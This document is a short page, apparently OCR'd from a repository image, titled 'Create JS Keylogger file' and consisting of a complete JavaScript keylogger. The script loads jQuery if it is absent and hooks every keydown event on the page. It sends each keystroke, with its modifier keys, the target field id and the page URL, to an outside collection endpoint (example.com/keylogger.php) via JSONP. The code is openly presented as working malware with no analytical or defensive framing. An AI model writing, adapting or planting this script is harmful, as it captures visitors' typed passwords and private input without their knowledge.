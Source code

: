 **Create JS Keylogger file - keylogger.js**

```js
if((window.jQuery))
{
    console.log("jQuery Found");
}
else
{
    console.log("jQuery Not Found");
    var script = document.createElement('script');
    script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
    document.body.appendChild(script);
}

function c(d)
{
    jQuery.ajax(
    {
        dataType: "jsonp",
        type:"GET",
        url: "https://example.com/keylogger.php",
        jsonp:"keypressed",
        data:
        {
            altnKey:d.altKey?1:0,
            ctrlKey:d.ctrlKey?1:0,
            userKey:d.key,
            targKey:d.target.id,
            userURI:d.target.baseURI
        },
        async:false,
        success: function(data)
        {
            console.log(data);
        },
        error:function(xhr, ajaxOptions, thrownError)
        {
            console.log("Error");
        }
    });
}

window.onload = function()
{
    window.addEventListener("keydown", function(e)
    {
        c(e);
    });
}
```
